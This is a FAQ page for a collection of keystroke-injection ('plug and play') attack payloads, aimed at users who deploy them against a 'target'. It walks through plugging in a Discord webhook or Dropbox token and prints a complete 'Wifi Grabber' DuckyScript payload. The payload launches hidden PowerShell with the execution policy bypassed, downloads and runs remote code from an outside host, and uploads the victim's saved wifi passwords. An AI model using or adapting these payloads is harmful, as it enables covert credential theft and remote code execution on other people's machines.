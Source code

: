 # FAQ

## 1. The code is executed but the Powershell code just opens and closes and nothing happens

In order for Jakoby or one of his Admin's to properly help you we need to assess and find an error to work with. 

The first step is to replace `-w h` with `-noexit` in your code. This will keep the Powershell window open and display any errors you may have 

Take a screen shot of the error and include it with your help request

<img src="https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/Assets/troubleShooting.png" width="1200">

----------------------------------------------------------------------------------------------------------------------------------------

## 2. How do I use a plug and play payload? 

These payloads are designed to make them as easy as possible to use. 
* There is no longer a need to download a copy, modify it, and host somewhere yourself  
* Simply plug in your Dropbox token or Discord webhook into the appropriate variable 

Using the Wifi Grabber payload as an example:
`$dc=''` is for Discord    |    `$db=''` is for Dropbox

```
REM     Title: Wifi Grabber
REM     Author: I am Jakoby
REM     Description: This payload grabs your target's wifi passwords and uploads them to either Dropbox, Discord, or both.
REM     Target: Windows 10, 11

GUI r
DELAY 500
STRING powershell -w h -NoP -Ep Bypass $dc='YOUR-DISCORD-WEBHOOK';$db='YOUR-DROPBOX-TOKEN';iwr jakoby.lol/e8v | iex
ENTER
```

----------------------------------------------------------------------------------------------------------------------------------------

## 3. What is a Dropbox token and how do I use it? 
You can use this video to learn all about it

<p align="left">
      <a href="https://www.youtube.com/watch?v=VPU7dFzpQrM">
        <img src=https://i.ytimg.com/vi/VPU7dFzpQrM/hqdefault.jpg width="500" alt="C#" />
      </a>
</p>

----------------------------------------------------------------------------------------------------------------------------------------

## 4. What is a Discord Webhook and how do I use it? 
You can use this video to learn all about it
<p align="left">
      <a href="https://youtu.be/Zs-1j42ySNU">
        <img src=https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/raw/main/Assets/images/thumbnail.png width="500" alt="C#" />
      </a>
</p>
